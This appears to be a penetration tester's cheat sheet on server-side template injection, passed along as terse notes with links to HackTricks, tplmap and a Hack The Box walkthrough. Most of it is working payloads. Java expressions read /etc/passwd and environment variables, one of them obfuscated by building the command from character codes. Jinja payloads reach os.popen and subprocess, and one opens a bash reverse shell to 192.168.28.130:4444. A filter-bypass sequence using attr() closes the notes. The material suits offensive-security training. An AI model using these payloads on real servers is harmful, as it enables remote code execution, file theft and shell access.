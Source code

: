 		https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
		Example:  https://shubham-singh.medium.com/doctor-htb-walkthrough-70bcb9eedefd 
		Step 1: Follow diagram to determine template engine
	Wordlist of GET/POST parameters:  https://github.com/danielmiessler/SecLists/blob/25d4ac447efb9e50b640649f1a09023e280e5c9c/Discovery/Web-Content/burp-parameter-names.txt
	*Automated Tool:  https://github.com/epinna/tplmap
		Python fix:  https://fahmifj.github.io/blog/tplmap-install/
	{{config}}; {{.}}; 
	Golang: {{ .DebugCmd "id" }}
    Java:
        Basic Injection:
            ${7*7}
            ${{7*7}}
            ${class.getClassLoader()}
            ${class.getResource("").getPath()}
            ${class.getResource("../../../../../index.htm").getContent()}
        Environmental Variables:  ${T(java.lang.System).getenv()}
        Read /etc/passwd:
            ${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
            ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
	Jinja (Python-powered):
		Common payload (try both Python versions!):
			Python2: {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
				String -> Object -> File -> read()
			Python3: {{ ''.__class__.__mro__[1].__subclasses__()[997](["/usr/bin/touch","/tmp/HACKED"]) }}
				String -> Object -> subprocess.Popen() (index could vary)
				Another method (using <class 'warnings.catch_warnings'>):
					''.__class__.__base__.__subclasses__()[144].__init__.__globals__['sys'].modules['os'].popen("ls").read()
					''.__class__.__base__.__subclasses__()[144].__init__.__globals__['sys'].modules['os'].popen("/usr/bin/touch /tmp/HACKED").read()
					''.__class__.__base__.__subclasses__()[144].__init__.__globals__['sys'].modules['os'].popen("bash -c 'bash -i >& /dev/tcp/192.168.28.130/4444 0>&1'")
        Tips:
            Classes and indexes could vary by application!
            Try variants for both Python versions!
            *Display output using read() at end
            Use breakpoints to understand/bypass filters/errors!
		Bypassing '.__' filter with Jinja attr() filter for concatenation:
			{% set string = "ssti" %}
			{% set class = "__class__" %}
			{% set mro = "__mro__" %}
			{% set subclasses = "__subclasses__" %}
			Exploit Methodology:
				{{ string|attr(class) }} - same as {{ "ssti".__class__ }}
				{{ string|attr(class)|attr(mro) }}
			Next:
				{% set string = "ssti" %}
				{% set class = "__class__" %}
				{% set mro = "__mro__" %}
				{% set subclasses = "__subclasses__" %}
				{% set mro_r = string|attr(class)|attr(mro) %}
				{{ mro_r[1] }}
			Next:
				{% set string = "ssti" %}
				{% set class = "__class__" %}
				{% set mro = "__mro__" %}